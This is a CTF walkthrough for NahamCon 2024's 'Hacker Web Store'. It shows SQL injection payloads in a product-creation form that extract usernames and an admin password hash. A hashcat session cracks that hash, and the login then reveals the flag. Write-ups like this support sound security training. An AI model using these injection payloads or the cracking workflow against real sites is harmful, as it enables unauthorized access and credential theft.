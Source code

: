 This is a walkthrough for the NahamCon CTF 2024 called **Hacker Web Store**

# Description
Author: @Jstith

Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.

This challenge may require a local password list, which we have provided below. Reminder, bruteforcing logins is not necessary and against the rules.

# The site
There is a page with product cards, a page to create products, and an admin page that requires a login. 
There is no visible code in the developer console. 
Ending strings and adding comment tags to the username and password on the admin page doesn't seem to have any affect on the page. 

# Create Page
There is a form for the product name, price, and description. Adding a `'` to the name field produces this error on the product page:
```
Error in Statement: INSERT INTO Products (name, price, desc) VALUES ('name'', '1', 'desc');

near "1": syntax error
```

That indicates we can do SQLi. 

Description: desc');--
Return: Success! Added new product to database.

Name: name','1',(select * from users));--
Return: 
```
Error in Statement: INSERT INTO Products (name, price, desc) VALUES ('name','1',(select * from users));--', '', '');

sub-select returns 3 columns - expected 1
```

Name: name','1',(select name from users order by name asc));--
Return: James

Name: name','1',(select name from users order by name desc));--
Return: website_admin_account

Name: name','1',(select password from users where name='website_admin_user'));--
Return: pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57

# Cracking the Hash
Hash was likely generated using python's `werkzeug.security.generate_password_hash("<password>", "pbkdf2")` because that function seems to be 
one of the only places that hashes are generated with that format. I was having a really hard time getting hashcat or jtr to accept the hash,
even when I changed the formatting. Fortunatly, the library also has `check_password_hash("<hash>", "<password>")` which lets you check if the hash came from that password,
essentially allowing a dictionary attack. Slower than the other tools, though. 

But that didn't work... so then I had to go back to trying hashcat. I looked through the source code for werkzeug and saw how it output the hash.
I had to base64 encode the salt and hash, the salt was simple but I had to convert the hash into hex and then b64 encode it. 

```
 $ hashcat -m10900 tmp2 password_list.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-skylake-avx512-11th Gen Intel(R) Core(TM) i7-1165G7 @ 2.80GHz, 2827/5718 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 2 MB

Dictionary cache hit:
* Filename..: password_list.txt
* Passwords.: 2000
* Bytes.....: 19382
* Keyspace..: 2000

The wordlist or mask that you are using is too small.
This means that hashcat cannot use the full parallel power of your device(s).
Unless you supply more work, your cracking speed will drop.
For tips on supplying more work, see: https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.

sha256:600000:TVNvazM0ekJ1Zm85ZDF0Yw==:sq36+u7UWfkDQB7BZW+do29LTAilBCfseEFXBRO/jlc=:ntadmin1234

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: sha256:600000:TVNvazM0ekJ1Zm85ZDF0Yw==:sq36+u7UWfkD...O/jlc=
Time.Started.....: Fri May 24 00:48:40 2024 (19 secs)
Time.Estimated...: Fri May 24 00:48:59 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (password_list.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      103 H/s (2.01ms) @ Accel:512 Loops:64 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2000/2000 (100.00%)
Rejected.........: 0/2000 (0.00%)
Restore.Point....: 0/2000 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:599936-599999
Candidate.Engine.: Device Generator
Candidates.#1....: !!!\\\\ -> coolguy

Started: Fri May 24 00:48:38 2024
Stopped: Fri May 24 00:49:01 2024

┌──(sawyeras㉿DESKTOP-D9IQNRC)-[/mnt/c/Users/ashto/Desktop]
└─$ hashcat -m10900 --show tmp2
sha256:600000:TVNvazM0ekJ1Zm85ZDF0Yw==:sq36+u7UWfkDQB7BZW+do29LTAilBCfseEFXBRO/jlc=:ntadmin1234
```

# Getting the flag
Log in using `username: website_admin_account password: ntadmin1234` and you get a page with the flag on it. 
`flag{87257f24fd71ea9ed8aa62837e768ec0}`
